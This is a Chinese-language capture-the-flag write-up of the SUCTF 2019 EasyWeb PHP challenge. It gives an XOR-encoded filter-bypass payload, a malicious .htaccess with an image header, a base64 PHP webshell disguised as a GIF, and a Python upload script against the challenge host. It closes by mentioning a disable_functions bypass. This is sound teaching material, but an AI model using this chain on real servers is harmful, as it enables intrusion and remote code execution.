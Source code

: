 # \[SUCTF 2019]EasyWeb

## \[SUCTF 2019]EasyWeb

## 考点

* PHP传参特性，PHP参数传递特性，PHP参数污染，PHP的字符串解析特性
* .htaccess特性
* .htaccess在没有\<?的情况下制作图片马

## wp

给了源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

两个部分，一个要执行get\_the\_flag函数，一个要绕文件上传

### 第一部分

传入参数长度小于等于18，并且由不超过12个字符组成。这些字符不包括这些

```
ASCII范围不包含
0-32，48-57，65-90，97-122，127
还有
'"`~_&.,|=[
```

![](<../../.gitbook/assets/image (21) (1).png>)

可以看出来没有过滤的是`$^{}%();`等等。一般来说，PHP传参是`$_GET["a"]`这种形式，但是在PHP7也可以这样`${_GET}{a}`

paylaod: `_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo` 相当于 `_=${_GET}{%ff}();&%ff=phpinfo`

### 第二部分

文件上传，后缀不能有`ph`，上传的文件内容不能有`<?`，并且会用`exif_imagetype`函数对上传文件进行检测

后缀不能有`ph`，那就是`.htaccess`或者`.user.ini`

内容不包含`<?`那就是`<script language="php">`，但是在PHP7被弃用

不确定中间件不确定PHP版本，看一下phpinfo，得到信息<mark style="color:orange;">`PHP7.2`</mark>和<mark style="color:orange;">`apache2`</mark>，REMOTE\_ADDR是10.244.80.46

![](<../../.gitbook/assets/image (7) (1).png>)

这样思路就明确了，上传`.htaccess`让服务器把图片文件解析成木马，但有几个问题

* `.htaccess`格式很严格，加上图片头文件apache是解析不了的，如何让它被识别成图片
* 图片文件在没有`<?`的情况下如何写马

<mark style="background-color:orange;">第一个问题有两个方法</mark>

一是

```
#define width 1337
#define height 1337
```

二是

`.htaccess`文件前加上16进制的`x00x00x8ax39x8ax39`，也即wbmp文件的开头，并且`.htaccess`文件中以`0x00`开头是注释符

<mark style="background-color:orange;">第二个问题是用</mark>`.htaccess`文件的`auto_append_file`包含base64解码的shell

.htaccess

```
#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
```

shell.gif

```
GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4=
```

然后上传可以用POSTman或者脚本都可以

```python
import requests
import base64

htaccess = b"""#define width 1337
#define height 1337 
AddType application/x-httpd-php .gif
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_cc551ab005b2e60fbdc88de809b2c4b1/shell.gif"
"""
shell = b"GIF89a12PD9waHAgZXZhbCgkX1JFUVVFU1RbJ2EnXSk7Pz4="
url = "http://fd0b9d5f-f8d6-4615-8a64-5c5eac845091.node4.buuoj.cn:81/?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.gif',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)

```

连接成功后发现权限好像不对，输什么都是返回ret=127，看了一下phpinfo，是要进行bypass\_disable\_function，用蚁剑自带的插件就可以。因为是PHP7.2，所以用了PHP7 Backtrace UAF进行bypass。

![](<../../.gitbook/assets/image (16) (1).png>)

## 小结

1. PHP传参是`$_GET["a"]`这种形式，但是在<mark style="color:orange;">PHP7</mark>也可以这样`${_GET}{a}`
2. 用`.htaccess`文件的`auto_append_file`可以包含base64解码的shell

